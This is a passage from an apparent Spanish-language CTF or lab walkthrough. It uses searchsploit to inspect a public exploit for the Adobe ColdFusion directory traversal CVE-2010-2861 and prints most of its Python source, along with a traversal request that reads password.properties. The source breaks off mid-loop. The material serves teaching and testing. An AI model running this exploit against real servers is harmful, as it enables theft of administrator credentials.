 
Pasemos a inspeccionar ese exploit y veamos en que consiste.


```bash
❯ searchsploit -x multiple/remote/14641.py
```

Veamos de que trata el exploit

```python
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
#
# LLsecurity added another admin page filename: "/CFIDE/administrator/enter.cfm"


#!/usr/bin/python

# CVE-2010-2861 - Adobe ColdFusion Unspecified Directory Traversal Vulnerability
# detailed information about the exploitation of this vulnerability:
# http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

# leo 13.08.2010

import sys
import socket
import re

# in case some directories are blocked
filenames = ("/CFIDE/wizards/common/_logintowizard.cfm", "/CFIDE/administrator/archives/index.cfm", "/cfide/install.cfm", "/CFIDE/administrator/entman/index.cfm", "/CFIDE/administrator/enter.cfm")

post = """POST %s HTTP/1.1
Host: %s
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: %d

locale=%%00%s%%00a"""

def main():
    if len(sys.argv) != 4:
        print "usage: %s <host> <port> <file_path>" % sys.argv[0]
        print "example: %s localhost 80 ../../../../../../../lib/password.properties" % sys.argv[0]
        print "if successful, the file will be printed"
        return

    host = sys.argv[1]
    port = sys.argv[2]
    path = sys.argv[3]

    for f in filenames:
        print "------------------------------"
        print "trying", f

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, int(port)))
        s.send(post % (f, host, len(path) + 14, path))

        buf = ""
        while 1:
            buf_s = s.recv(1024)
            if len(buf_s) == 0:
                break
```